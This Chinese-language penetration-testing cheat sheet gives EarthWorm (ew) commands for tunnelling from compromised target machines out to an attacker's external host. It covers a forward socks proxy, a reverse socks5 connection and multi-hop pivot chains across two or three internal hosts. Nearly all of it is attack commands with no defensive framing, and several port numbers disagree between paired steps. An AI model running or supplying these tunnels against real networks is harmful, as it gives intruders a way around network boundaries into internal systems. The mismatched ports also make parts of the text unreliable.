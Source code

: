 ![image](/assets/Pentest_Note/master/img/346.png)
#### 正向(目标机存在外网IP)：
	>ew –s ssocksd –l 888
	连接sockscap64靶机外网IP+端口888
#### 反弹socks5(目标机无外网IP)：
	外网攻击机：
	>ew -s rcsocks -l 1008 -e 888
	-l为socks软件连接的端口，-e为目标主机和vps的通信端口。
	靶机:
	>ew -s rssocks -d 外网IP -e 1008 
	sockscap64连接攻击机外网IP+端口1008
#### 二级环境(A有外网，B内网无外网)：
	靶机B:
	>ew –s ssocksd –l 888
	靶机A:
	>ew –s lcx_tran –l 1080 –f 靶机B –g 888
	Sockscap64连接靶机外网IP+端口 1080
#### 二级环境(A无外网，B内网无外网)：
	外网攻击机：
	>ew –s lcx_listen –l 10800 –e 888
	靶机B：
	>ew –s ssocksd –l 999
	靶机A:
	>ew -s lcx_slave -d 外网 -e 8888 -f 靶机B -g 9999 
	Sockscap64连接攻击机外网IP+端口 10080
#### 三级环境(A无外网,B内网无外网通A,C通B)：
	外网攻击机：
	>ew -s rcsocks -l 1008 -e 888
	靶机A：
	>ew -s lcx_slave -d 外网攻击机 -e 888 -f 靶机B -g 999
	靶机B：
	>ew -s lcx_listen -l 999 -e 777
	靶机C:
	>ew -s rssocks -d靶机B -e 777
	Sockscap64连接攻击机外网IP+端口 1008
